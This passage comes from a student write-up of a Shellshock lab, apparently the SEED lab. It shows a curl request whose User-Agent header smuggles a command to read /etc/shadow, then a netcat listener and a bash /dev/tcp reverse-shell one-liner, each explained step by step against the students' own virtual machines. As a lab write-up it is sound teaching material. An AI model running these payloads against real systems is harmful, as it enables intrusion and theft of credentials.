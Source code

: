 We still used command below to launch an attack, but the `curl` did not response any useful information this time. 
```shell
curl http://localhost/cgi-bin/myprog.cgi -v -A "() { echo hello; }; echo Content_type: text/plain;echo; /bin/cat /etc/shadow" -v
```
We also tried to use option `-v` (verbose) to get more information. The image below is the output, in which the content-length is zero. 
![](/assets/images/media/16326883206491/16327005370706.jpg)

## TASK05
### 5.1 Prepare for server and client
For this task, we cloned another virtual machine and set the two machines in same NAT networks.
```shell
# Commands for the server
$ echo 'export PS1="[SEV]\[\e[1;36m\]\u@\h\[\e[m\]:\w\\$ "' >> /.bashrc
$ source ~/.bashrc
# Commands for the attacker
$ echo 'export PS1="[ATC]\[\e[1;31m\]\u@\h\[\e[m\]:\w\\$ "' >> ~/.bashrc
$ source ~/.bashrc
```
We also used the commands above to configure their bash prompt, which can help us identify them more easily. As the image shows, we used the left one as server and right one as attacker. 
![](/assets/images/media/16326883206491/16327681715222.jpg)

### 5.2 Reverse Shell
We used two key steps to get a reverse shell: First, the attacker need to start a TCP server to listening a specific port number, which will be used to interact with the bash program on a victim server; Second is to make the server change its `stdout`, `stdin` and `stderr` to TCP socket connected with the IP and port number of the attacker's device.  
#### 5.2.1 Step 01
We used `netcat` with option -l to implement the first one. The command is: 
```shell
$ nc -l 9090 -v
```
It will start a TCP server listing on port number 9090. When it receives any messages from the victim server, it will output them on the attacker's terminal. Due to the bilateral communication of TCP connection, the attacker can also send commands to the server. 
#### 5.2.2 Step 02
We implemented the second one by executing the command below on the server: 
```shell
$ /bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1
```
In the command, the option `i` means the interactive model that will show the bash prompt. The `> /dev/.../9090` makes the `stdout` to the TCP socket connected with `10.0.2.15:9090`. `0<&1` and means also change the $1$ (`stdin`) and $2$ (`stderr`) to the socket. 

#### 5.2.3 Commands outputs
The image below shows the outputs of our commands. The left is our victim server and the right is our attacker. We started the `netcat` program at first, and it successfully connected with the $10.0.2.6$ (server's IP), after executing of the `bash -i ...` command on the server. We verified the attack by `hostname -I` which can output all IP addresses of a device. 
![](/assets/images/media/16326883206491/16327685275524.jpg)
